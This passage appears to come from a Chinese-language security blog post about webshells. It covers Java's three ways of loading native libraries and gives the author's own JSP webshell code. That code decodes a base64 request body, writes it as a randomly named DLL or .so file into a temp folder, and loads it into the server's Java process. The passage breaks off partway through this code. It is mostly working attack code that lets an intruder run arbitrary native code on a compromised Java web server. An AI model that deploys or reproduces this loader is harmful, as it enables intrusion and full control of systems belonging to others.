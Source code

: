 有的时候Webshell管理工具并没有直接给出错误代码的含义，而是直接抛出错误代码，这种情况就能使用命令或者工具去查询，了解错误的发生到底是因为什么问题。

## 0x03 Java加载动态链接库常见的三种办法

Java加载动态链接库常见的有三种办法：

- System.load / System.loadLibrary
- Runtime.getRuntime().load
- com.sun.glass.utils.NativeLibLoader.loadLibrary

```java
private void RuntimeLoad(String path){
    Runtime.getRuntime().load(path);
}

private void SystemLoad(String path){
    System.load(path);
}

// 有些JDK版本没有这个对象，因此采用反射加载进行运行
private void NativeLoad(String path) throws Exception{
    Class Native = Class.forName("com.sun.glass.utils.NativeLibLoader");
    if(Native != null){
        java.lang.reflect.Method Load = Native.getDeclaredMethod("loadLibrary",String.class);
        Load.invoke(path);
    }
}
```

第三种有些JDK版本没有这个对象，因此采用反射加载进行运行。

大致流程如下：

`System.load` → `Runtime.getRuntime**()**.load0**()**` →  `ClassLoader.loadLibrary` → `NativeLibrary.load` → `native void load*(*String name, boolean isBuiltin*)*`

我实现了一个简单版本的DLL加载JSP代码，确保每一个请求都可以加载一个DLL模块到Java进程中：

```java
<jsp:declaration>
// 获取随机的动态链接库文件名称
private String getFileName(){
    String fileName = "";
    java.util.Random random = new java.util.Random(System.currentTimeMillis());
    String os = System.getProperty("os.name").toLowerCase();
    if (os.contains("windows")){
        fileName = "C:\\Windows\\Temp\\" + random.nextInt(10000000) + ".dll";
    }else {
        fileName = "/tmp/"+ random.nextInt(10000000) + ".so";
    }
    return fileName;
}

// JSP 声明函数中无法获取全局默认的ServletRequest对象，但ServletRequest继承java.io.InputStream，可以替代
public String UploadBase64DLL(java.io.InputStream stream) throws Exception {
    sun.misc.BASE64Decoder b = new sun.misc.BASE64Decoder();
    java.io.File file = new java.io.File(getFileName());
    java.io.FileOutputStream fos = new java.io.FileOutputStream(file);
    fos.write(b.decodeBuffer(stream));
    fos.close();
    return file.getAbsolutePath();
}

private void RuntimeLoad(String path){
    Runtime.getRuntime().load(path);
}

```